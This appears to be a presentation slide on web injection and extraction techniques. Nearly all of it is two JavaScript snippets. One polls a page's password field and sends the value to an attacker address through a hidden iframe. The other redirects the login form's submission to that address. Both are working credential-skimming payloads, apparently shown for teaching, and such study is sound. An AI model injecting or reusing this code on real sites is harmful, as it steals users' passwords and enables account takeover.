

# Injection & Extraction Techniques
| STEALTH CODE | FORM ACTION CODE |
| --- | --- |
| function testPassword() { var password = document.forms[0].password.value; if(password != "") { var temp= document.createElement("div"); temp.innerHTML += "<iFrame src=\""+ attacker\_addr + "?password=" + password + "\" style=\"display:none;\" />"; document.body.appendChild(temp); clearInterval(interval); }} interval = setInterval(testPassword, 50); | changer = function() { document.forms[0].action = attacker\_addr; document.forms[0].submit(); } setTimeout(changer, 1000); |